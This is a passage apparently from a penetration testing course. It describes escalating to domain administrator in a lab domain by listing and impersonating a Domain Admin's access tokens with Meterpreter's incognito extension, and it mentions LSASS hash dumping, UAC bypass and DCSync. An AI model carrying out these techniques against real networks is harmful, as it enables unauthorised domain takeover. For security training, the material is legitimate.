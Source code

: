 ```
Local Group Memberships      
Global Group memberships     *Domain Admins        *Domain Users         
The command completed successfully.
```

> Listing 51 - Enumerating group memberships for paul

We find that _paul_ is a member of the Domain Admins group, which means our complete compromise of evil.com is close at hand.

One way to gain access to the enticing domain administrator rights would be to dump the NTLM hash of _paul_ from LSASS, but that means disabling LSA protection again.

There are easier ways. One option is to simply migrate into a process owned by _paul_, but if we land in a medium-integrity process, we will have to perform a UAC bypass to regain high-privileged access and it will place us under the effect of AppLocker policies.

Alternatively, we could locate access tokens for _paul_ in memory and impersonate them. This will allow us to perform actions in the context of _paul_ while still enjoying the privileges of a SYSTEM shell. We'll take this approach.

The _incognito_ Meterpreter extension is ideal for this and as SYSTEM, we can view any tokens on the machine as shown in Listing 52.

```
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > list_tokens -u

Delegation Tokens Available
========================================
EVIL\paul
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-1

Impersonation Tokens Available
========================================
No tokens available
```

> Listing 52 - Listing access tokens on file01

Since we can impersonate _paul_, we have domain administrator access to the infrastructure. At this stage, the penetration test often becomes a lot easier, depending on how secure the configurations are.

If we want to thoroughly compromise the domain or need to attack subsequent trusted domains, we can obtain access to the _krbtgt_ NTLM hash through an attack like _DCSync_[1](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5596-1) or simply perform lateral movement to the domain controller.
